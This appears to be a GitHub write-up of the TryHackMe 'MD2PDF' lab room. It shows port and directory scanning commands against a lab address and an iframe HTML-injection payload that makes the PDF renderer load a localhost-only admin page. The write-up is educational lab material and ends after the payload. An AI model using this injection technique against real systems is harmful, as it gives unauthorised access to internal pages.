

# MD2PDF-TryHackMe-Writeup
Walkthrough of MD2PDF room on TryHackMe
Perfect — you’re ready to wrap this up into a clean, professional writeup. Here’s the full writeup with an image section and instructions on how to insert the image on GitHub.

⸻

🏴 TryHackMe Writeup: MD2PDF

🧭 1. Reconnaissance

✅ RustScan

rustscan -a 10.10.61.16

Discovered Ports:
	•	22: SSH
	•	80: HTTP
	•	5000: Flask web service

✅ Dirsearch

dirsearch -u http://10.10.61.16 -r

Discovered Path:
	•	/admin → 403 Forbidden

💡 Inference: The /admin panel exists but is likely restricted to localhost. We aim to reach it via the victim’s browser.

⸻

🎯 2. Exploitation via HTML Injection

We tested for input-based HTML injection and confirmed that <iframe> tags are rendered unfiltered. This is a green light for HTML injection.

✅ Payload Injected:

<iframe src="http://localhost:5000/admin" width="100%" height="500"></iframe>

